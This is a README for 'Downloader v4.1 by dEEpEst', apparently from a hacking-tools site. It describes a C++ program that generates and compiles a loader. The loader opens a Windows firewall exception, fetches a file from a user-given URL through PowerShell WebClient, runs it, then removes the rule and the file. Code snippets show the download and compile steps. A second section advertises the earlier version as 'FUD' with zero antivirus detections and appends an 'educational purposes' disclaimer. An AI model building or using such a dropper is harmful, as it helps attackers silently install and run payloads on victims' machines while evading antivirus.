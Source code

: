 # Downloader v4.1 by dEEpEst

Downloader v4.1 by dEEpEst is a C++ program that simplifies the process of downloading a file from a specified URL, running the file, and creating a firewall exception for the downloaded file.

## Introduction

The tool can be especially useful for managing downloads and ensuring security rules are correctly applied to them.

## Functionality

Upon execution, the program will:

1. Ask for a URL to download the file from.
2. Ask for the name of the file.
3. Ask for the name of the Firewall rule.
4. Ask for the Visual Studio compiler route.
5. Generate a new .cpp file that contains code to create a firewall exception, download the file, run it, and remove both the firewall exception and file after use.
6. Compile and run this new .cpp file.

## Code Structure

The main components of the program are:

- `print_header()`: Prints the ASCII art header and program details.
- `class DescargaYRegla`: Handles the generation and compilation of a new C++ file.
    - `generarArchivo()`: Generates a new .cpp file.
    - `compilarArchivo()`: Compiles the new .cpp file into an executable.
- `replaceSingleBackslashWithDouble()`: Utility function to escape backslashes in paths.
- `main()`: Takes user input for the required parameters and starts the process.

## Code Snippets

### Class Constructor

```cpp
DescargaYRegla(std::string url, std::string archivo, std::string regla, std::string rutaCompilador)
    : url(url), archivo(archivo), regla(regla), rutaCompilador(rutaCompilador) {
    generarArchivo();
    compilarArchivo();
}
```

### Generate a new .cpp file

```void generarArchivo() {
    ...
    out << "if(system(\"powershell -Command \\\"(New-Object System.Net.WebClient).DownloadFile('" + url + "', '" + archivo + "')\\\"\") != 0) {\n";
    ...
}
```

### Compile new .cpp file

```void compilarArchivo() {
    ...
    bat_file << "call \"" + rutaCompilador + "\\VsDevCmd.bat\"\n";
    bat_file << "cl /EHsc new_code.cpp /Fe:new_code.exe\n";
    ...
}
```

## Usage

```Downloader.exe <URL> <file_name> <firewall_rule> <compiler_route>```

## Dependencies

Visual Studio: It should be installed and ```cl.exe``` should be in your system's PATH.

## License

This project is licensed under the MIT License.

## Links

- [Github Repository](https://github.com/LvL23HT/Downloader_by_dEEpEst)
- [Home](https://level23hacktools.com)

---
***
---

# Downloader v3.0 by dEEpEst - Source Code - FUD - C++ - Powershell
This is a downloader I wrote in C++ Which runs Powershell commands , it creates a rule in the Firewell to allow connections and it downloads a file from the internet and runs it. 
As you can see also delete the rule and delete the file.

The file is FUD , 0 detections of the AV's 

![image](https://user-images.githubusercontent.com/130660521/235003522-a03e34d6-b9e8-4103-9903-a2e212bf1649.png)


It's just the beginning of a project, I will improve the functionality and update it.

Of course as always it is for educational purposes.


You can see me here https://level23hacktools.com/hackers/profile/1-deepest/

